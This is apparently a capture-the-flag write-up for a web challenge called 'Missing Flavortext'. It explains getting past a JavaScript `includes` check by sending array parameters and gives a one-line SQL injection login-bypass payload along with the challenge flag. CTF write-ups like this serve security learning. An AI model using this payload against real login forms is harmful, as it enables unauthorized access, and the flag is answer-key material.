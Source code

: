 MISSING FLAVORTEXT
===
**Category**: Web

**Points**: 111 (224 solves)

**Author**: BrownieInMotion
### Description
- `Hmm, it looks like there's no flavortext here. Can you try and find it?`
- Site: `missing-flavortext.dicec.tf`
- Source: `index.js`
### Solution
- we need bypass `includes` ![image](https://user-images.githubusercontent.com/54855855/107364942-b37d9c80-6b0e-11eb-9b07-f9001590cbb3.png)
- debug local ![image](https://user-images.githubusercontent.com/54855855/107365585-939aa880-6b0f-11eb-9e35-127e302c4062.png)
### Payload
`username[]=admin&password[]=test'union+select+1+--+-`
### Get Flag
![image](https://user-images.githubusercontent.com/54855855/107366089-4a972400-6b10-11eb-9db6-d8aca1d04a38.png)
### Flag
`dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}`

